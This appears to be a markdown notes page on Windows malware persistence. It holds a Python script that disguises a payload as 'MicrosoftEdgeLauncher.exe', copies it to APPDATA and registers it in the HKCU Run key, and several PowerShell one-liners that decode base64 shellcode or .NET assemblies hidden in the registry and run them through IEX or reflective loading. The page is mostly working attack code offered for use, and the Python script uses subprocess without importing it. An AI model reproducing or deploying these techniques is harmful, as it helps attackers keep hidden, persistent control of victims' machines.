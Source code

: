 # Scripting

## Python

```python
import os
import shutil
from sys import executable

masquerade_payload_name = "MicrosoftEdgeLauncher.exe" # Disguise the payload as Microsoft Edge
registry_value = "MicrosoftEdge"
registry_type = "REG_SZ"

def persistence() -> None:
    location = os.environ['APPDATA'] + "\\" + masquerade_payload_name

    if not os.path.exists(location):
        # Copy the payload to that new location
        shutil.copyfile(executable, location)
        # Add the payload to registry startup
        subprocess.call(f'reg.exe add HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v {registry_value} /t {registry_type} /d "{location}" ', shell=True)

if __name__ == "__main__":
    persistence()
```

## PowerShell

TODO: Other ideas is to use registries to include shellcode and execute it.

https://blog.sonicwall.com/en-us/2022/06/guloader-a-fileless-shellcode-based-malware-in-action/

```
%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -c "sleep 0; IEX([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String((Get-Item 'HKLM:SOFTWARE\<registry_key>').GetValue('<registry_value_name>'))))"
```

```powershell
powershell -Command " [Reflection.Assembly]::Load([System.Convert]::FromBase64String((Get-ItemProperty 'HKCU:\Software\Classes\<registry_key>').b64encAssembly)); [CMD_exec.Class1]::RunCMD()"

powershell IEX ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String((get-itemproperty 'HKCU:\Software\Classes\<registry_key>').b64encPS)))

powershell -Command " [Reflection.Assembly]::Load(([System.IO.File]::ReadAllBytes('C:\path\to\payload.dll')); [CMD_exec.Class1]::RunCMD();"

powershell -Command " [Reflection.Assembly]::LoadFile('C:\path\to\payload.dll'); [CMD_exec.Class1]::RunCMD();"

powershell IEX (Get-Content C:\path\to\payload.ps1 -Raw)
```

https://az4n6.blogspot.com/2018/06/malicious-powershell-in-registry.html

adding registry persistence by spliting the shellcode hexadecimal

https://thedfirreport.com/2024/02/26/seo-poisoning-to-domain-control-the-gootloader-saga-continues/

---
## References

### The Python Code

- [The Python Code: How to Make Malware Persistent in Python](https://thepythoncode.com/article/how-to-create-malware-persistent-in-python)
